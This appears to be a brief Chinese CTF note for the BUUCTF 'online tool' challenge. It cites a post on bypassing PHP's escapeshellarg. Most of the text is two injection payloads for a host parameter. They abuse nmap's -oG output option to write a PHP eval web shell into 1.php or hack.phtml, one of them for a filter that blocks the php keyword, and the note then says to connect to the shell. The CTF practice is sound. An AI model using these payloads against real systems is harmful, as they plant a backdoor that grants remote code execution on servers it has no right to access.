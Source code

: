 参考:http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/

例题:buuctf online tool



没看懂为什么,但反正如下构造就行:

```
?host=' <?php @eval($_POST["hack"]);?> -oG 1.php ' 
127.0.0.1 | ' <?= @eval($_POST["hack"]);?> -oG hack.phtml'//这是屏蔽了php关键字的情况
//写入一句话到1.php文件中,注意空格不能省略
```

然后再连接shell